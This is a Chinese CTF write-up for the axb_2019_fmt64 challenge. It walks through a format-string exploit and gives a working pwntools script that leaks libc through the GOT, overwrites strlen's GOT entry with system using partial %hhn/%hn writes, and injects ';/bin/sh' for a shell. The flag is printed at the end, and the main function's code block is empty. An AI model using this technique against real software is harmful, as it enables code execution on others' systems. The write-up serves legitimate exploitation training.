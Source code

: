 # axb_2019_fmt64

[题目地址](https://buuoj.cn/challenges#axb_2019_fmt64)

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

[axb_2019_fmt32](axb_2019_fmt32.md)的64位续集。题目没什么大变化，漏洞也是格式化字符串。不过32位和64位差了一个很关键的问题：`\x00`截断。先看main函数。

```c
```

很明显的格式化字符串漏洞。然后找偏移。

```
Hello,I am a computer Repeater updated.
After a lot of machine learning,I know that the essence of man is a reread machine!
So I'll answer whatever you say!
Please tell me:AAAAAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Repeater:AAAAAAAA,0x400ab5,0x7fff8a1708e0,0x1,0x7f35a7936460,0x7fffffff,(nil),0x5f00000000,0x4141414141414141,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0xa2c70252c,(nil),(nil),(nil),(nil),(nil),(nil),(nil),
```

偏移为8。接下来是泄露地址。这里要注意，需要把即将泄露的地址写在最后面，再适当地调整偏移，跟32位一样写在前面会导致`\x00`截断，printf无法读取到后面的格式化字符串，自然就没有地址泄露了。详情见这篇[文章](https://www.anquanke.com/post/id/194458)。泄露地址后就是老生常谈的改got表了，不过注意我们只需要改末尾的3个字节，因为64位系统里基本上两个不同函数的真实地址都只有末尾几个字节不一样。

```python
from pwn import * 

context.log_level='debug'

io = remote("node4.buuoj.cn",29968)
puts_got = 0x601018
strlen_got = 0x601020
#因为把地址放在后面了，地址处的偏移就变成了%9$p。4个A是为了对齐到8个字节
payload1 = b"%9$sAAAA" + p64(puts_got)
io.sendafter("Please tell me:",payload1)
print(io.recvuntil("Repeater:"))
puts_addr = u64(io.recvuntil("\x7f").ljust(8,b"\x00"))
print("puts_addr ---> ",hex(puts_addr))

libcbase = puts_addr - 456336
system_addr = libcbase + 283536
bin_sh = libcbase + 1625431
print("system_addr ---> ", hex(system_addr))
print("bin_sh ---> ", hex(bin_sh))

#取出倒数第3个字节
high_sys = (system_addr >> 16) & 0xff
#倒数两个字节
low_sys = system_addr & 0xffff

print('sys'+hex(system_addr))
print('low'+hex(low_sys))
print('high'+hex(high_sys))

#str(high_sys - 9)里的-9是因为程序已经输出了Repeater: 9个字节。hhn单字节，hn双字节，%12$hhn的偏移对应下方的p64(strlen_got + 2)，%13$hn对应下方的 p64(strlen_got)
payload2 = b"%" + str(high_sys - 9).encode() + b"c%12$hhn" + b"%" + str(low_sys - high_sys).encode() + b"c%13$hn"
print(len(payload2))
print(payload2)
#ljust(32,b"A")也是为了对齐。p64(strlen_got + 2)得到strlen_got的倒数第三个字节处地址，p64(strlen_got)则是最低字节处地址，前面用的hn会往这里写2个字节，那倒数第二个也会被写入
payload2 = payload2.ljust(32,b"A") + p64(strlen_got + 2) + p64(strlen_got)

io.sendafter("Please tell me:",payload2) 

#命令注入，构成system("Repeater:;/bin/sh\x00")
payload3 = ';/bin/sh\x00'

io.sendafter("Please tell me:",payload3)

io.interactive()
io.close()
```

## Flag
> flag{e59c17db-5761-452b-b7fa-df40b47784f1}
